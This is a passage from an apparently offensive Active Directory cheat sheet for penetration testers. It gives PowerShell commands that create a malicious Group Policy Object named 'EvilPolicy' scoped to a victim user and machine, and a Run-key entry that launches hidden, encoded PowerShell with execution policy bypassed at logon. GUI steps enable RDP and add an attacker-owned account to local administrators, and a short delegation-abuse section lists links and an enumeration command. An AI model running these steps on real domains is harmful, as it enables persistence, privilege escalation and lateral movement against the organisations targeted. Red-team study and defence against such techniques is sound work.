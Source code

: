 ```
PS > Add-WindowsFeature -Name "RSAT-AD-PowerShell"
PS > Import-Module ActiveDirectory
PS > Get-ADComputer -Identity VICTIM-PC | Select DistinguishedName
```

Create the GPO using PowerShell (will trigger your command when the victim user logs in):

```
PS > Add-WindowsFeature -Name "GPMC"
PS > Import-Module GroupPolicy
PS > New-GPO -Name EvilPolicy -Domain megacorp.local -Server DC01.megacorp.local
PS > Set-GPPermission -Name EvilPolicy -Replace -PermissionLevel GpoApply -TargetName "victim.user" -TargetType User
PS > Set-GPPermission -Name EvilPolicy -Replace -PermissionLevel GpoApply -TargetName "VICTIM-PC" -TargetType Computer
PS > Set-GPPermission -Name EvilPolicy -PermissionLevel None -TargetName "Authenticated Users" -TargetType Group
PS > New-GPLink -Name EvilPolicy -Domain megacorp.local -Target "<TARGET_OU>" -Order 1 -Enforced Yes
PS > Set-GPRegistryValue -Name EvilPolicy -Key "HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run" -ValueName MSstart -Type String -Value "powershell.exe -NoP -sta -NonI -W Hidden -Exec Bypass -Enc <BASE64_CMD>"
```

Create the GPO using GPMC (will enable RDP and add owned user/group to local administartors group on VICTIM-PC):

1. Run → `gpmc.msc`
2. Create new GPO, link it to the OU and edit
3. `<POLICY_NAME>` → Computer Configuration → Policies → Windows Settings → Security Settings → Windows Firewall with Advanced Security → Windows Firewall with Advanced Security → Inbound Rules → New Rule (right-click) → Predefined → Remote Desktop → Allow
4. `<POLICY_NAME>` → Computer Configuration → Preferences → Control Panel Settings → New Local Group (right-click) → Group name (`...`) → Members (Add) → Apply → OK




## Delegation Abuse

* [https://www.thehacker.recipes/active-directory-domain-services/movement/abusing-kerberos/kerberos-delegations](https://www.thehacker.recipes/active-directory-domain-services/movement/abusing-kerberos/kerberos-delegations)



### Unconstrained

* [https://adsecurity.org/?p=1667](https://adsecurity.org/?p=1667)
* [https://dirkjanm.io/krbrelayx-unconstrained-delegation-abuse-toolkit/](https://dirkjanm.io/krbrelayx-unconstrained-delegation-abuse-toolkit/)

```
PowerView3 > Get-DomainComputer -Unconstrained | select dnshostname,samaccountname,useraccountcontrol
```
